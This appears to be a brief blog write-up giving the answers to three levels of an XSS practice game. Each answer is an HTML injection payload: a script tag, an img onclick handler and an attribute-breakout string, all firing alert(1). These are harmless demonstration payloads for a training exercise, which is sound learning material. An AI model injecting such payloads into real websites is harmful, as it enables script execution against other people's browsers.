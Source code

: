 ```yaml
---
title: Others | XSS Game
author: Zeropio
date: 2022-04-29
categories: [Others, XSSgame]
tags: [xss]
permalink: /others/xss-game/
---
```


# Level 1
```html
<script>alert(1)</script>
```

# Level 2
```html
<img onclick="alert(1)">
```

# Level 3
```html
...' onclick="alert(1)" >
```
